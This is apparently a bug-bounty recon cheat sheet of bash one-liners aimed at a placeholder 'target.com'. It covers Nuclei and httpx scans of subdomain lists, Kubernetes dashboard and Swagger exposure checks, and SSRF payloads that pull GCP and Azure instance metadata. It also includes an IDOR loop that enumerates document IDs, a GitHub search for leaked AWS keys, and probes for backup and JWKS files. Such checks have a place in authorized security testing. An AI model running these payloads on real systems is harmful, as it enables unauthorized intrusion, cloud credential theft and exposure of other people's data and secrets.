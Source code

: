 Detect Known CVEs via Nuclei (Automated Vuln Scan)
```bash
nuclei -l subdomains.txt -t cves/ -o known_cves_found.txt
```

Identify Unsafe Redirects (via Location Header)
```bash
cat subdomains.txt | httpx -silent -sc -o redirects.txt && cat redirects.txt | grep 'Location:' | grep -i 'http'
```

Find Kubernetes Dashboard Exposures
```bash
cat subdomains.txt | httpx -silent -path /api/v1/namespaces/kube-system/services/https:kubernetes-dashboard:/proxy/ -mc 200 -o k8s_dashboard_exposed.txt
```

Exposed Swagger / API Documentation  
```bash
curl -s https://target.com/swagger.json
```

Admin Panel Discovery (CMS Detection)  
```bash
curl -s https://target.com/admin/ | grep -i 'cms'
```

GCP Metadata SSRF Check  
```bash
curl "https://target.com/?url=http://metadata.google.internal/computeMetadata/v1/ -H 'Metadata-Flavor: Google'"
```

Azure Metadata Leak via SSRF  
```bash
curl "https://target.com/?url=http://169.254.169.254/metadata/instance?api-version=2021-01-01" -H "Metadata: true"
```

OAuth Token Leak in Referrer  
```bash
curl -I https://target.com/oauth/callback?code=abcd1234
```

AWS Keys Hunt in Public Repos (with GitHub CLI)  
```bash
gh search code "AWS_ACCESS_KEY_ID" --language python --limit 100
```

IDOR via Incrementing Document IDs  
```bash
for id in $(seq 1 100); do curl -s https://target.com/documents/$id; done
```

Sensitive Backup File Discovery  
```bash
curl -I https://target.com/config.bak
```

JWT Key Disclosure via Well-Known File  
```bash
curl -s https://target.com/.well-known/jwks.json
```
